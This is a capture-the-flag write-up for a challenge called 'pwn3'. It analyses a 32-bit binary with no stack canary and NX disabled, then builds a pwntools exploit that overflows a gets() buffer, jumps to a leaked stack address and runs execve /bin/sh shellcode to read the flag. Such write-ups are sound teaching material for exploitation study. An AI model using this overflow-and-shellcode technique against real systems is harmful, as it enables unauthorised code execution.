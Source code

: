 ## pwn3
##### *tl;dr: buffer overflow to execute shellcode on the stack*
#### Making it a habit that whenever there's a pwn chall, we need to check the security measures first using the *checksec* utility from pwntools:
```
$ checksec pwn3
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
#### As we can see, the output is different from the previous pwn challenges. This binary has no canary and has NX disasbled - meaning we can execute code on the stack. More details [here](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/). Basically, no canary means that we can do some kind of a buffer overflow on the stack, since no measures are put in place to determine whether some part of it is overwritten. NX, short-hand for 'non-executable', is disabled meaning segments of the binary are not only writeable, but also executable. We run the binary to have an initial look at what it does:
```
$ ./pwn3
  Take this, you might need it on your journey 0xff92adce!
```
#### From what we see, it prints out that string and waits for user input afterwards. The printed string comes with some kind of an address (which changes everytime the binary is executed) which will be useful later on. We then fire up gdb to look at the inner workings of the challenge. 
```
$ gdb ./pwn3
  gdb-peda$ disas main
   [...]
   0x00000612 <+47>:	add    esp,0x10
   0x00000615 <+50>:	call   0x59d <echo>
   0x0000061a <+55>:	mov    eax,0x0
   0x0000061f <+60>:	lea    esp,[ebp-0x8]
   [...]
```
#### The call to a function called ```echo``` is interesting, let's have a deeper look at it by disassembling the function:
```
gdb-peda$ disas echo
  Dump of assembler code for function echo:
     0x0000059d <+0>:	  push   ebp
     0x0000059e <+1>:	  mov    ebp,esp
     0x000005a0 <+3>:	  push   ebx
     0x000005a1 <+4>:	  sub    esp,0x134
     0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
     0x000005ac <+15>:	add    ebx,0x1a20
     0x000005b2 <+21>:	sub    esp,0x8
     0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
     0x000005bb <+30>:	push   eax
     0x000005bc <+31>:	lea    eax,[ebx-0x191c]
     0x000005c2 <+37>:	push   eax
     0x000005c3 <+38>:	call   0x410 <printf@plt>
     0x000005c8 <+43>:	add    esp,0x10
     0x000005cb <+46>:	sub    esp,0xc
     0x000005ce <+49>:	lea    eax,[ebp-0x12a]
     0x000005d4 <+55>:	push   eax
     0x000005d5 <+56>:	call   0x420 <gets@plt>
     0x000005da <+61>:	add    esp,0x10
     0x000005dd <+64>:	nop
     0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x000005e1 <+68>:	leave  
     0x000005e2 <+69>:	ret    
  End of assembler dump.
```
#### The function loads whatever are in the locations ```[ebp-0x12a]``` and ```[ebx-0x191c]``` into the stack and used as arguments for the printf call. Recalling what we have got so far with the initial start up of the binary, we know that ```[ebx-0x191c]``` in this part stores the address which is printed. Looking below the disassembly, we see a ```gets``` call which stores the input into the buffer at ```[ebp-0x12a]```. The size of the buffer is 0x12a(298) and that is the exact offset at which the stack can be started to be overwritten.
#### Putting together what we already know, we can perform a buffer overflow attack and execute some code in the stack. So our exploit method will be a buffer overflow into executing shellcode. To do that, we need the address of the stack - but that isn't a problem anymore since the address for the stack is already given at the start of the program. So our exploit method will be buffer overflow into changing eip to stack address and placing our shellcode in there for the stack to execute. We create a simple exploit.py script and test it locally to see if it's able to execute our sigtrap:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn3')

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack)
sigtrap = '\xCC'
exploit = offset + esp + sigtrap

#: Send data
p.sendline(exploit)
print(p.recv())
```
#### We run the script, but we get an error:
```
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 919)
```
#### Let's try to redirect the output of the script into a file and use gdb to analyze what's happening.
```
$ python exploit.py > exploit
$ gdb ./pwn3
    gdb-peda$ r < exploit
        [...]
        0xffffd069:	inc    ecx
        0xffffd06a:	inc    ecx
        0xffffd06b:	inc    ecx
     => 0xffffd06c:	ds iret 
        0xffffd06e:	(bad)  
        0xffffd06f:	dec    esp
        0xffffd071:	int3   
        0xffffd072:	int3
        [...]
```
#### We see here that the program stops even before it reaches our int3 (sigtrap) instructions. This is due to the ```ds iret``` call which switches program execution into user mode. What I did was to look for another address in the stack which can be able to execute our code. I don't remember the exact details of how I did this, but what I do remember is that I found some address on the stack that executes the sigtraps, noted it, subtracted it with the given stack address on the start of the program, and got the exact offset to begin executing code - stack + 311. After we point the eip into that address of the stack, we'd need to perform a short ```nopsled``` (a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired destination whenever the program branches to a memory address anywhere on the slide) in order to call our shellcode. The shellcode I will be using is handcrafted (needed to learn the basics of shellcoding. Great resource [here](https://0x00sec.org/t/linux-shellcoding-part-1-0/289)). We know create our final exploit script to connect with the challenge server, get a shell, and print out our flag:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4323
p = remote(HOST,PORT)

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack + 311)
nopsled = '\x90' * 10
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80'
exploit = offset + esp + nopsled + shellcode

#: Send data
p.sendline(exploit)
p.sendline('cat flag.txt')
print(p.recv())
```
#### And finally, after 3 days of being stuck at the challenge, we get the flag.
```
$ python exploit.py

Take this, you might need it on your journey 0xffdb4d5e!

gigem{r3m073_fl46_3x3cu710n}
```
